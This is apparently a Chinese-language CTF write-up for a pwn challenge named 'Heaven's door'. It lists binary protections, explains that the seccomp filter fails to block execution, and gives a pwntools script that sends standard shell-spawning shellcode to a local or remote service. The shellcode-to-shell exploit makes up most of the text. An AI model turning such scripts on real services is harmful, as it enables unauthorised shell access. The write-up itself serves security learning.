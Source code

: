 # Heaven's door

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

见下方图例

## 解题思路

可以读取0xc3个字节，执行shellcode，但是扫描了shellcode，只允许2个`syscall`。
仔细观察seccomp，整个防护是无效的！直接打常规的shellcode拿shell都行...

![diagram](assets/heaven_diagram.png)

[官方博客](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)的解法是切换64位/32位系统调用，
*dbgbgtf* 则在考虑再拼一个`syscall`出来。然而，貌似远程执行syscall后，rcx并不是 syscall
之后的地址，他利用rcx做偏移写0x5失败了，最终没有打通。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heaven'

def payload(lo: int):
    global sh
    if lo & 4:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'set follow-fork-mode parent\nb *0x401709\nc')
    elif lo:
        sh = remote('127.0.0.1', 1336)
        if lo & 2:
            gdb.attach(('127.0.0.1', 1337), 'set follow-fork-mode parent\nb *0x401709\nc', EXE)
    else:
        sh = remote('', 9999)

    sh.send(asm(shellcraft.sh()))

    sh.clean()
    sh.interactive()
    sh.close()
```
